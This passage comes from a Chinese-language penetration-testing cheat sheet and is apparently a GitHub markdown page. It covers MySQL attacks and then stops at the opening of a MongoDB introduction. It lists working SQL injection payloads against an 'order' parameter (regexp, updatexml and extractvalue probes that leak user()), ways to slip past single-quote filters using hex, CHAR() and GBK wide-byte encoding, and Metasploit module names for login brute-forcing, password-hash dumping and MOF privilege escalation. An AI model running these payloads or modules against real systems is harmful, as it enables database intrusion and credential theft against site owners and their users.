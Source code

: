 利用：

```
利用regexp 
/?order=(select+1+regexp+if(1=1,1,0x00)) 正常 
/?order=(select+1+regexp+if(1=2,1,0x00)) 错误  
利用updatexml 
/?order=updatexml(1,if(1=1,1,user()),1) 正确 
/?order=updatexml(1,if(1=2,1,user()),1) 错误  
利用extractvalue 
/?order=extractvalue(1,if(1=1,1,user())) 正确 
/?order=extractvalue(1,if(1=2,1,user())) 错误 
```

### 单引号被过滤

* hex编码 16进制编码：

    SELECT password FROM Users WHERE username = 0x61646D696

* char() 方法：

    SELECT FROM Users WHERE username = CHAR(97, 100, 109, 105, 110)

* 宽字节gbk编码在单引号加%df

### msf相关利用

* mysql_login登录爆破模块
* mysql_hashdump导出用户密码hash值
* mof提权模块：

```
use exploit/windows/mysql/mysql_mof
use exploit/windows/mysql/mysql_start_up
use exploit/windows/mysql/scrutinizer_upload_exec
use exploit/windows/mysql/mysql_payload
use exploit/windows/mysql/mysql_yassl_hello

```

# mongodb

mongodb，开源，文档导向的数据管理系统，C++编写。数据JSON形式保存。每个数据库存在多个集合collections，每个集合包含多个文档documents
主要特性：

* 基于文档

* 高性能
* 简单的可拓展性
* 没有复杂的连接

## mongdb shell

* use dbs使用或创建数据库：
